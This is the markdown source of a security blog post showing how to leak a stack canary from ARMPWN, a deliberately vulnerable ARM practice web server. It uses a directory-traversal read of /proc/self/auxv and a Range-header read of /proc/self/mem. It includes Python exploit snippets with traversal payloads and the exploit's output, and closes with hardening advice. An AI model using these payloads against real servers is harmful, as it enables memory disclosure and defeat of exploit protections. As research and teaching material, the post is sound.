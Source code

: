 ```yaml
---
layout: post
title: "ARMPWN redux: canary reloaded"
author: hugsy
author_twitter: _hugsy_
author_email: hugsy@[RemoveThisPart]blah.cat
author_github: hugsy
tags: linux exploit arm ssp armpwn
header-img: "img/canary-header.png"
---
```


>
> __TL;DR__: It is possible to defeat stack canary protection when a binary is vulnerable to
> arbitrary file read.
>

## Intro ##

First of, Happy New Year 2017 ✌

Recently, I've decided to thoroughly investigate the "_Stack Smashing
Protection_" (SSP) on recent Linux and recent Glibc. This research has led to a
blog post available on [elttam R&D blog](https://www.elttam.com.au/blog). Among
many other things, I've found that canaries built with recent glibc may have
their values leaked, should the program be also vulnerable to an arbitrary file
read access, and if it exposes its
[Auxiliary Vector](https://www.elttam.com.au/blog/playing-with-canaries#auxiliary-vector) via
the `procfs` structure.

All the details regarding the following attack on the canary are explained in
this blog post, so I will assume that you are familiar with it. If you're not:

  * the full article is {% include link.html title="here" href="https://www.elttam.com.au/blog/playing-with-canaries" %}
  * the code repository is {% include link.html title="there" href="https://github.com/elttam/canary-fun" %}

In the article, I imagined the attack scenario would apply perfectly well to a
Web or FTP server, and would occur following those steps:

  1. dump `/proc/self/auxv` to get the `AT_RANDOM` location
  2. read `/proc/self/mem` and force an `lseek` access to reach the location found
     above via
     the [HTTP header Range](https://tools.ietf.org/html/rfc7233#page-8) (for
     instance `Range: bytes=<0xAT_RANDOM_LOCATION>-<0xAT_RANDOM_LOCATION+16>`)
  3. Truncate the received buffer to `sizeof(register)`
  4. Nullify the last byte (`result &= ~0xff`)

That was the theory, which made perfect sense, but I wanted a practice
case.

Earlier this year, I [had some fun with ARMPWN](/2016/06/12/armpwn-challenge), a vulnerable web server
created by  {% include icon-twitter.html username="@5aelo" %} to practice
exploitation on ARM, so I have decided to use it for a practical, yet very
realistic exploit case.

You can download:

  - [the new websrv.c here](https://gist.github.com/00d74ecac86297efc6772e415f307176)
  - [or simply the patch here](https://gist.github.com/c2dbc3e3c11836dcebf53a2189f35976)


## Patch analysis

This cheap patch provides to the "new" `websrv` the (pseudo-)capability to
[parse the HTTP Range header](https://gist.github.com/hugsy/00d74ecac86297efc6772e415f307176#file-websrv-c-L181-L201)
provided by the client. This is basically how modern Web servers (Apache, nginx)
treat this header.

{% highlight c %}
unsigned long start, end;
char *ptr;
int r;

start = end = 0;
ptr = get_range_header(request, len);
if (ptr){
    if(get_ranges_from_header(ptr, &start, &end)==0){
        if (start && end){
            printf("%s:%d reading range of file '%s' from %u-%u\n", inet_ntoa(client.sin_addr), htons(client.sin_port), file, start, end);
            if (lseek(fileno(f), start, SEEK_SET)==-1){
                perror("lseek() failed:");
[...]
{% endhighlight %}

In the earlier exploit, we had exploited the Directory Traversal to dump the
process memory mapping (via `/proc/self/maps`) and defeat PIE & ASLR. To crush
SSP protection, we managed to get the canary value by brute-forcing it, which is
very noisy (the canary can be found in max. of 4*256=1024 HTTP requests on a
32-bit architecture, 2048 on 64-bit) and risky (the memory corruption may alert
of an on-going attack).

But now we can actually do much better: we have all the conditions
mentioned earlier to exfiltrate the canary's value, thanks to the ELF Auxiliary
Vector.


## Exploitation

This approach is a lot more stable and stealthier than canary brute-forcing,
since we don't rely on any memory corruption/process crash to determine the
valid bytes of the canary
[as we did before](/2016/06/12/armpwn-challenge#leaking-the-canary).


### Find AT_RANDOM from the Auxiliary Vector

So first, we need to read the process _Auxiliary Vector_ exposed via `procfs`.

{% highlight python %}
s.send("GET ../../../../../proc/self/auxv HTTP/1.0\r\n\r\n")
{% endhighlight %}

And then parse the result:

{% highlight python %}
AT_RANDOM = 25
[...]
data = s.recv(1024)
for i in range(0, len(data), 8):
    code = struct.unpack("<I", data[i:i+4])[0]
    if code==AT_RANDOM:
        at_random_address = struct.unpack("<I", data[i+4:i+8])[0]
        break
{% endhighlight %}

If we did things correctly, this will store in the variable `at_random_address`
the address of the 16 random bytes provided by the kernel, used to create the
canary.


### (l)seeking the process memory via the HTTP Range header

Since `procfs` also exposes the process memory, we can use `/proc/<pid>/mem` to
seek to the address we've found at the step above.

{% highlight python %}
m = "GET ../../../../../proc/self/mem HTTP/1.0\r\n"
m+= "Range: bytes={:d}-{:d}\r\n\r\n".format(at_random_address,at_random_address+16)
s.send(m)
{% endhighlight %}


_Note_: `yama/ptrace_scope` must be set to 0 to be able to read the process
memory.


### Fire!

The final exploitation script which combines all the steps described above can
be found [here](https://gist.github.com/hugsy/a462b398721bfb7e6bbd678b6d0e852b).

{% highlight text %}
$ python armpwn_leak_canary.py
[+] Connected to 'rpi2-1:80'
[+] Leaking AUVX
[+] AT_RANDOM=0xbe8409c5
[+] Forging HTTP request using Range
[+] Canary is 0xd998d300
{% endhighlight %}

![](https://cdn.meme.am/cache/instances/folder864/18614864.jpg)

To be we fetched the correct value for the canary of the remote process, we can
use
[this script](https://github.com/elttam/canary-fun/blob/master/read_canary_from_pid.py) locally
to compare the values for the canary:

{% include image.html src="https://i.imgur.com/IWpuMIy.png" alt="Running
the exploit" id=1 %}



## Conclusion

This exploitation shows a different way to leak the canary value, and therefore
defeat the SSP protection. As you may have noticed, since this attack does not
rely on memory corruption, it is extremely reliable. And it is also much faster:
the canary brute-force can take up 4x256 (or resp. 8x256 for 64-bits) requests to
determine, where this approach found the same value with only 2 requests.

This illustrates once again the need to maintain a system as hardened as
possible, especially on production systems, since restricting `ptrace`, or
refusing to expose AUXV like GrSec does, would defeat this attack.

Thanks for reading, and as usual drop me a line on IRC/Twitter/email for any
question/comment ☕
